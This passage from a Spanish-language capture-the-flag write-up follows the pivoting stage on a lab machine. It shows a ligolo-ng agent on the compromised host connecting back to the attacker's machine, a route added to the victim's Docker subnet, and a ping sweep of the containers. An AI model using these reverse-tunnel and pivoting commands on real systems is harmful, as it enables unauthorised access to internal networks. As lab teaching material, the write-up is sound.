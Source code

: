 Ahora nos conectamos a nuestra máquina local.
```console
james@trickster:/tmp$ ./ligolo-ng-agent-linux_amd64 -connect 10.10.16.24:443 -ignore-cert
WARN[0000] warning, certificate validation disabled     
INFO[0000] Connection established                        addr="10.10.16.24:443"
```

Y vemos que nos llega la conexión.
![Write-up Image](images/Screenshot_31.png)

Ahora en nuestra máquina vamos a crear la ruta para que los paquetes que se dirijan a los contenedores de la máquina víctima pasen por `ligolo`, recomiendo ver [este artículo](https://software-sinner.medium.com/how-to-tunnel-and-pivot-networks-using-ligolo-ng-cf828e59e740) donde se explica todo muy bien.
```console
$ sudo ip route add 172.17.0.0/16 dev ligolo
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/trickster/content/ligolo-ng/dist]
└──╼ [★]$ ip route
default via 192.168.1.1 dev ens33 proto dhcp src 192.168.1.52 metric 100 
default via 192.168.154.2 dev ens34 proto dhcp src 192.168.154.128 metric 101 
10.10.10.0/23 via 10.10.16.1 dev tun0 
10.10.16.0/23 dev tun0 proto kernel scope link src 10.10.16.24 
10.129.0.0/16 via 10.10.16.1 dev tun0 
172.17.0.0/16 dev ligolo scope link linkdown 
192.168.1.0/24 dev ens33 proto kernel scope link src 192.168.1.52 metric 100 
192.168.3.0/24 dev docker0 proto kernel scope link src 192.168.3.1 linkdown 
192.168.154.0/24 dev ens34 proto kernel scope link src 192.168.154.128 metric 101  
```

Ahora en `ligolo` podemos iniciar el túnel con `start`
```console
[Agent : james@trickster] » start
[Agent : james@trickster] » INFO[0363] Starting tunnel to james@trickster 
```

Y ahora podemos hacer ping a la máquina víctima pero a través de la interfaz `docker0`
```console
$ ping 172.17.0.1
PING 172.17.0.1 (172.17.0.1) 56(84) bytes of data.
64 bytes from 172.17.0.1: icmp_seq=1 ttl=64 time=142 ms
64 bytes from 172.17.0.1: icmp_seq=2 ttl=64 time=148 ms
64 bytes from 172.17.0.1: icmp_seq=3 ttl=64 time=188 ms
```

## Pivoting to container
Haciendo un pequeño script en bash podemos analizar que hosts están activos en la máquina víctima y encontramos uno.
```console
$ ./scan.sh                                                                                                                     
172.17.0.1 está activo                                                                                                                  
172.17.0.2 está activo                                                                                                                  
172.17.0.3 no responde                                                                                                                  
172.17.0.4 no responde                                                                                                                  
172.17.0.5 no responde                                                                                                                  
172.17.0.6 no responde
```
